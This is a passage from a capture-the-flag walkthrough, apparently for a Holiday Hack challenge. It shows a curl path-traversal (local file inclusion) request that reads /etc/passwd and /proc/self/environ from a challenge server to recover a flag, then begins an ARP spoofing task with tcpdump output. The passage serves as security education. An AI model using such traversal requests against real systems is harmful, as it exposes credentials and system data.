 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
```

As we're trying to get an environment variable, I'm going to use the LFI to read the Ruby process' memory by requesting the file `/proc/self/environ`.
```
micrictor@DESKTOP-5SEN25E:~/tag$ curl 'https://tag-generator.kringlecastle.com/image?id=../proc/self/environ' | tee
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   399  100   399    0     0   1385      0 --:--:-- --:--:-- --:--:--  1385
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```

Our `GREETZ` is "JackFrostWasHere".

### ARP Shenanigans
>Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?

Booting into the terminal, we're greeted by a TMUX session, with the bottom panel displaying a message:
```
Jack Frost has hijacked the host at 10.6.6.35 with some custom malware.
Help the North Pole by getting command line access back to this host.

Read the HELP.md file for information to help you in this endeavor.

Note: The terminal lifetime expires after 30 or more minutes so be 
sure to copy off any essential work you have done as you go.

guest@f5cfcd462290:~$ 
```

Looking around our home directory seems like a good start:
```
guest@f5cfcd462290:~$ ls
HELP.md  debs  motd  pcaps  scripts
guest@f5cfcd462290:~/scripts$ ls                     
arp_resp.py  dns_resp.py 
guest@f5cfcd462290:~$ cd pcaps/
guest@f5cfcd462290:~/pcaps$ ls
arp.pcap  dns.pcap
guest@f5cfcd462290:~/pcaps$ 
```

Starting up a tcpdump session, we see our target box trying to find who has the IP `10.6.6.35`. 
```
guest@f5cfcd462290:~$ tcpdump -nni eth0
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:51:38.365397 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:51:39.397380 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:51:40.445386 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```
